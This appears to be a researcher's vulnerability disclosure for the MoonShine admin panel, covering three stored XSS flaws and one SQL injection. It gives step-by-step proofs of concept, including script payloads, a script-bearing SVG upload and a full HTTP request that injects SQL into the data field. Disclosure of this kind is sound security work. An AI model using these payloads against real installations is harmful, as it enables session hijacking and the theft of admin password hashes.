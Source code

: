 # MoonShine Software Vulnerability Disclosure
Author: Giacomo Lenzini - GiacoLenzo2109
## CVE-2025-51487 - Stored XSS
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.5, allowing remote attackers to store and execute arbitrary JavaScript in the browser of a user by including a payload using "javascript:", instead of the expected HTTPS protocol, in the CutCode *Link* parameter when creating/updating a new Article.
### CVSS 3.1 - 4.5 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
The XSS is related to the creation of a new article:  
1. Under the sidebar: *Blog -> Articles*

2. Under *Link -> CutCode* insert the following payload under: `javascript:alert("XSS")`
![/images/CVE-2025-51487_1.png](/images/CVE-2025-51487_1.png)


3. Complete all other fields and save

4. Load all articles and check for your last article saved. Under the link field you will see your payload. Click on it, a popup will be opened showing the message "XSS"
![/images/CVE-2025-51487_2.png](/images/CVE-2025-51487_2.png)
![/images/CVE-2025-51487_3.png](/images/CVE-2025-51487_3.png)

## CVE-2025-51488 - Stored XSS
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.4, allowing remote attackers to store and execute arbitrary JavaScript in the browser of a user by including a malicious payload in the *Name* parameter when creating a new Admin.
### CVSS 3.1 - 4.9 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
The issue is related to the function to add a new Admin.  

1. Under the Sidebar "System" tab: *Admins -> Create*

2. Insert the following payload under the *Name* input field: `<img src=x onerror=alert("XSS")>`
![/images/CVE-2025-51488_1.png](/images/CVE-2025-51488_1.png)

3. Save

4. Under the sidebar select *Blog -> Articles*: now a popup will be opened showing the message "XSS"  
![/images/CVE-2025-51488_2.png](/images/CVE-2025-51488_2.png)

## CVE-2025-51489 - Reflected XSS via Unrestriced File Upload
### Description
A Stored Cross-Site Scripting (XSS) vulnerability exists in MoonShine version < 3.12.5, allowing remote attackers to upload a malicious SVG file in *Files -> Thumbnail* when creating/updating an Article and correctly execute arbitrary JavaScript in the victim's browser when the file link is opened by the victim.
### CVSS 3.1 - 4.5 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
When creating a new Article (*Blog -> Articles*), an attacker could upload the following SVG under *Files -> Thumbnail* field.
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(255,0,0);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("XSS!");
   </script>
</svg>
```
![/images/CVE-2025-51489_1.png](/images/CVE-2025-51489_1.png)
![/images/CVE-2025-51489_2.png](/images/CVE-2025-51489_2.png)


## CVE-2025-51510 - SQL Injection
### Description
MoonShine was discovered to contain a SQL injection vulnerability via the Data parameter under the Blog module when using the moonshine-tree-resource component. An example of the use of this vulnerable component can be found under the public MoonShine Software demo based on MoonShine Software 3.12.5 (https://github.com/moonshine-software/demo-project - commit 72a1d80bf23de6c3457205630eb25409432bdbe0).

The vulnerable component is the following https://github.com/lee-to/moonshine-tree-resource (version < 2.0.2).
### CVSS 3.1 - 4.9 Medium
CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N
### PoC - Proof of Concept
To correctly intercept the vulnerable request change the position of a caterogy (e.g. the one highligthed in blue) by moving it up/down.
![/images/CVE-2025-51510.png](/images/CVE-2025-51510.png)

Vulnerable SQLi request, injecting a payload inside the *data* request field that shows the database version.
```
POST /admin/category-resource/sortable HTTP/1.1
Host: localhost
Content-Length: 431
sec-ch-ua-platform: "macOS"
X-XSRF-TOKEN: <REPLACE>
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuLTeqJXF3L06Er3R
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/admin/resource/category-resource/category-index-page
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9
Cookie: XSRF-TOKEN=<REPLACE>; laravel_session=<REPLACE>

------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="parent"


------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="index"

1
------WebKitFormBoundaryuLTeqJXF3L06Er3R
Content-Disposition: form-data; name="data"

(SELECT @@version)
------WebKitFormBoundaryuLTeqJXF3L06Er3R--
```

Here an example of the dumped db version:
![/images/CVE-2025-51510_1.png](/images/CVE-2025-51510_1.png)

Using the attached Python script (CVE-2025-51510.py), it was possible to extract Admin hash from *moonshine_users* table.

The following image shows the Admin hash correctly dumped (from moonshine_users table) character by character:
![/images/CVE-2025-51510_2.png](/images/CVE-2025-51510_2.png)

